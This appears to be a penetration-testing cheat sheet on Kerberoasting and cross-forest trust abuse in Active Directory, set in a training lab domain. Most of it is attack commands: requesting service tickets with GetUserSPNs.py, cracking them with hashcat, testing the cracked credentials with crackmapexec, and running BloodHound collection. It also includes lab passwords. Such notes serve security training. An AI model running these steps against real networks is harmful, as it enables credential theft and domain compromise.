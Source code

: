
#### Possible Cases

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Listing SPN Accounts
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Request All TGS Tickets (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

Request TGS Ticket For A Specific User (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

Cracking TGS Tickets
```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

Auth Testing
```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

https://github.com/ShutdownRepo/targetedKerberoast


#### Cross Forest Trust Abuse

Finding SPN entries with creds
```shell-session
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

Request TGS Hash (-request gives TGS -outputfile outputfile_name)
```shell-session
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile kirbi.hash
```

Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf with DHCP not enabled
```shell-session
cat /etc/resolv.conf
```

After adding dhcp entry running bloodhound on INLANEFREIGHT.LOCAL
```shell-session
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

